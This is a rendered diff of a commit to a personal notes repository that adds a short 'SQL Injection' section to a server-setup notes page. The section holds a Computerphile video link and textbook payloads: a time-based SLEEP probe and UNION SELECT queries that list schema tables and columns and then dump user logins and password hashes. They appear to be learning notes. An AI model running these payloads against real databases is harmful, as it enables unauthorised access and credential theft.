

Before and after one commit to michaelwehrley/notes, a Markdown page: servers/servers.md, the part around the change printed below. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
notes about sql injection

````diff
--- a/servers/servers.md
+++ b/servers/servers.md
@@ -131,3 +131,25 @@ _You may need to update the database due to any outstanding migrations if you ha
 ```Unix
 $ bundle exec rake db:migrate
 ```
+
+## SQL Injection
+
+[Running an SQL Injection Attack - Computerphile](https://youtu.be/ciNHn38EyRc)
+
+```SQL
+-- SLEEP is an SQL command
+SELECT ? FROM ? WHERE ? LIKE %hammer% AND 0 = SLEEP(2);
+
+-- UNION Appends - makes sure column count matches
+
+-- Get the table names of all the tables
+-- we are selecting 3 columns b/c it must match the original SELECT call
+SELECT ?,?,? FROM ? WHERE ? LIKE %hammer% UNION (SELECT TABLE_NAME, TABLE_SCHEMA, 3 FROM information_schema.table); --%';
+
+-- Get the column names of the users table
+SELECT ?,?,? FROM ? WHERE ? LIKE %hammer% UNION (SELECT COLUMN_NAME, 2, 3 FROM information_schema.columns WHERE TABLE_NAME = 'users'); --%';
+
+-- GEt the particular data for each user
+SELECT ?,?,? FROM ? WHERE ? LIKE %hammer% UNION (SELECT uLogin, uHash, uType FROM users); --%''
+```
+
````
Also changed, not shown: other parts of servers/servers.md (+1 -0 lines), event_loop.md (+4 -2 lines), git.md (+4 -0 lines), assets/concurrency_model_and_event_loop.png (added), 3 other files.
